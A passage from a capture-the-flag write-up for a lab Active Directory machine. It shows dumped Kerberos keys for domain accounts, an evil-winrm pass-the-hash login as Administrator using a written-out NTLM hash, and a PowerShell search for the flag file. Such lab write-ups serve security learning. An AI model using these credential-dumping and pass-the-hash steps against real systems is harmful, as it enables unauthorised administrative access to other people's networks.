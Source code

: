 ```text
COOCTUS.CORP\password-reset:des-cbc-md5:343d2c5e01b5a74f
DC$:aes256-cts-hmac-sha1-96:f139b6126db52fc1e999964c9b5183f5e2226cf44db5445796fdba70ea00b7cb
DC$:aes128-cts-hmac-sha1-96:913f038cd869024f3ddc1df07e62515c
DC$:des-cbc-md5:da294358100868da
[*] Cleaning up... 

```

Now lets connect to the DC using evil-winrm, since port 5985 is open on the box.

```bash
evil-winrm -i cooctus.corp -u Administrator -H add41095f1fb0405b32f70a489de022d
```

![image.png](/assets/images/CroccCrew_THM/image%2029.png)

Found 2 flags easily as I was the administrator, the root.txt flag was not there in the administrator’s desktop.

So I searched for it using this command.

```powershell
Get-ChildItem -Path C:\ -Filter "root.txt" -Recurse -ErrorAction SilentlyContinue
```

It was found in the C:\Perflogs\Admin folder

![image.png](/assets/images/CroccCrew_THM/image%2030.png)

![image.png](/assets/images/CroccCrew_THM/image%2031.png)
